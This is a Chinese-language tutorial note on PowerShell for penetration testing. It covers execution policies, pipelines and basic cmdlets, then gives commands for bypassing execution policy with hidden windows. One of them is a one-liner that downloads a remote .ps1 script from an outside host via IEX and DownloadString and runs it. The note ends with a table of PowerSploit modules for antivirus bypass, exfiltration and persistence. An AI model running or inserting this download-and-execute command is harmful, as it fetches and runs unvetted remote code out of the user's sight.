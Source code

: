 # PowerShell安全

## 执行策略

在PowerShell无法执行时，可以使用以下命令查看执行策略

```
get-executionpolicy
```

查寻结果如图

| 结果         | 说明                                         |
| ------------ | -------------------------------------------- |
| Restricted   | 脚本不能运行(Default)                        |
| RemoteSigned | 本地脚本可执行，远程脚本需要有签名才可以执行 |
| AllSigned    | 脚本需要由受信任的发布者签名才可以运行       |
| Unrestricted | 允许所有的脚本运行                           |

可以使用一下cmdlet来设置PowerShell执行策略

```cmdlet
set-executionpolicy <policy-name>
```

## PowerShell管道

管道的作用时将一个命令的输出作为另一个命令的输入，两个命令之间用管道符号`|`连接

**Example**

停止当前所有以`p`开头的进程

```
get-process p* | stop-process
```

## 常用命令

### 基本知识

| 描述     | 指令 |
| -------- | ----------------------------------------- |
| 新建目录 | new-item <dirname> -itemtype directory |
| 新建文件 | new-item <filename> -itemtype file |
| 删除目录 | remove-item <dirname> |
| 显示文本内容 | get-content <filename> |
| 设置文本内容 | set-content <filename> -value "<content>" |
| 追加内容 | add-content <filename> -value "<content>" |
| 清除内容 | clear-content <filename> |

### 常用命令

#### 绕过本地权限执行

```
Powershell.exe -ExecutionPolicy Bypass -File <name>.ps1
```

#### 本地隐藏绕过权限执行脚本

```
Powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -NoLogo -NonInteractive -NoProfile -File <name>.ps1
```

#### 用IEX下载远程PS1脚本绕过(bug)

```
Powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -NoLogo -NonInteractive -NoProfile IEX (New-Object System.Net.Webclient).DownloadString('http://www.e-wolf.top/2.ps1')
```

#### 参数说明

- ExecutionPolicy Bypass : 绕过执行安全策略，这个参数非常重要，在默认情况下，PowerShell的安全策略规定了PowerShell不允许运行命令和文件。通过设置这个参数，可以绕过任意一个安全规则。在渗透测试中，基本每一次运行PowerShell脚本时都要使用这个参数。
- WindowStyle Hidden ： 隐藏窗口
- NoLogo : 启动不显示版权标志的PowerShell
- NonInteractive (-Nonl) : 非交互模式，PowerShell不为用户提供交互的提示
- NoProfile (-Nop): PowerShell控制台不加载当前用户的配置文件
- Noexit : 执行后不退出Shell。这在使用键盘记录等脚本时非常重要。
- PowerShell脚本在默认情况下无法直接运行，这时就可以使用上述三种方法绕过安全策略，运行PowerShell脚本。

# PowerSploit

## 模块介绍

| 模块               | 功能                       |
| ------------------ | -------------------------- |
| AntivirusBypass    | 发现杀毒软件的查杀特征     |
| CodeExecution      | 在目标主机上执行代码       |
| Exfiltration       | 目标主机上的信息收集工具   |
| Mayhem             | 蓝屏等破坏性脚本           |
| Persistence        | 后门脚本                   |
| Recon              | 以目标主机为跳板刺探信息   |
| ScriptModification | 在目标主机上创建或修改脚本 |



